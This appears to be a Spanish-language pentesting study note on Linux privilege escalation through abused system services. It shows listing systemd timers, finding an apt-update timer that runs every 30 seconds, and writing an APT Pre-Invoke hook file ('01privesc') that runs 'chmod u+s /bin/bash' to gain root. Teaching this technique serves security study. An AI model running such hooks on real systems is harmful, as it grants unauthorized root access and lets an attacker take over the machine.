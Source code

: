 -----
- Tags: #teoria #practica #escalada 
----

# Abuso de servicios internos del sistema

### Los **servicios internos**  son componentes esenciales que operan en segundo plano dentro de un sistema operativo, encargándose de funciones críticas como la gestión de red, impresión, actualización de software y monitoreo del sistema, entre otros. 

### NO obstante, si estos servicios **no están configurados adecuadamente** y se encuentran activos, pueden representar una brecha de seguridad significativa. Los atacantes podrían explotar estos servicios para obtener acceso no autorizado al sistema y llevar a cabo actividades malintencionadas. 

### Un ejemplo concreto sería un servicio de red mal configurado con permisos elevados. Si un atacante logra identificarlo y hallar una forma de aprovecharlos, podría utilizarlo para escalar privilegios y obtener acceso de administrador. 

# Escalada 

### Como sabemos cuando comprometemos una máquina puede ser que debido a reglas de firewall o configuraciones no veamos puertos abiertos a la hora de escanear los mismos, pero una vez que estamos dentro puede ser muy interesante revisar los puertos de la máquina ya que tal vez veamos resultados diferentes y podamos dar con servicios que corren que antes no podíamos ver. 

### Ejemplo: 

### Supongamos que en la ruta **/etc/systemd/system** existen dos archivos, un **apt-update.service** y un **apt-update.timer** los cuales llegamos a ver en base a ver los timers de los servios del sistema y buscar por uno el cual nos llama la atención llamado **apt-udpate.service** 

```bash
systemctl list-timers
# Fri 2023-06-02 11:38:50 EDT 18s left       Fri 2023-06-02 11:38:20 EDT 11s ago      apt-update.timer             apt-update.service

find / -name apt-update.service 2>/dev/null 
# /etc/systemd/system/apt-update.timer
# /etc/systemd/system/timers.target.wants/apt-update.timer
```

### De esta manera nos dirigimos a la ruta **/etc/systemd/system** para ver el contenido de estos archivos. 

#### apt-update.service: 
```bash
 [Unit] 
 Description=Update package list 
 
 [Service]
 Type=oneshot
 ExecStart=/usr/bin/apt update 
```

#### apt-update.timer: 
```bash
 [Unit]
 Description=Update package list every 30 seconds 
 
 [Timer]
 OnUnitActiveSec=30s 
 Unit=apt-update.service
 
 [Install]
 WantedBy=timers.target 
```

### En donde vemos que es un servicio el cual dispone de un timer para ser ejecutado cada 30s y que se encarga de ejecutar un apt-update del sistema. 

### En este punto podríamos ver si por algún motivo contamos con permisos de escritura en la carpeta **/etc/apt/apt.conf.d**, en caso de contar con permisos de escrituras podríamos automáticamente buscar como realizar una ejecución de un comando Pre-Invoke al apt, ya que podemos establecer acciones que queremos que se realicen de manera previa y posterior a una actualización del sistema. 

### Por lo que en la ruta **/etc/apt/apt.conf.d** creamos el archivo con formato como el de los demás, por ejemplo **01privesc**:

#### 01privesc: 
```bash
APT::Update::Pre-Invoke  {"chmod u+s /bin/bash";};
```

### De esta manera en base al abuso de servicios internos del sistema podríamos lograr escalar privilegios. 